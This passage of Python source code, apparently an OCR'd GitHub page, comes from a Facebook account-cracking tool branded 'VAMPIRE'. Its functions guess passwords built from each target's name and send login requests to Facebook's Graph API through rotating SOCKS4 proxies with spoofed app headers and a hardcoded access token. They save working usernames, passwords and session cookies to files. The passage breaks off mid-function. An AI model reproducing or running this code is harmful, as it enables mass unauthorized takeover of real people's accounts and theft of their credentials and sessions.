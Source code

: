             sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                prox=random.choice(xvx)
                bro={"http":"socks4://"+prox}
                head = {'User-Agent': f'{F2}','Accept-Encoding':'gzip, deflate','Connection':'close','Content-Type':'application/x-www-form-urlencoded','Host':'graph.facebook.com','X-FB-Net-HNI':str(random.randint(2e4, 4e4)),'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32','X-FB-Connection-Type':'WIFI','X-Tigon-Is-Retry':'False','x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32','x-fb-device-group':'5120','X-FB-Friendly-Name':'ViewerReactionsMutation','X-FB-Request-Analytics-Tags':'graphservice','X-FB-HTTP-Engine':'Liger','X-FB-Client-IP':'True','X-FB-Server-Cluster':'True','x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
                data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':sid,'password':ps,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale':'es_ES','client_country_code':'ES','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}
                po = requests.post('https://graph.facebook.com/auth/login',data=data,headers=head,proxies=bro).text
                q = json.loads(po)
                if 'session_key' in q:
                     cookie = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                     print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M2.txt','a').write(sid+'|'+ps+'\n')
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M2-COOKIE.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                     oks.append(sid)
                     break
                elif 'www.facebook.com' in q:
                     print(f"\r\r {green}[{red}VAMPIRE-CP{green}]{green} {sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-CP.txt','a').write(sid+'|'+ps+'\n')
                     cps.append(sid)
                else:continue
            loop+=1
        except Exception as e:time.sleep(30)
#---------FILE M3
    def __MTDTHREE__(sid, name, psw,tl):
        try:
            global oks,cps,loop,xvx
            abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
            sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                prox=random.choice(xvx)
                bro={"http":"socks4://"+prox}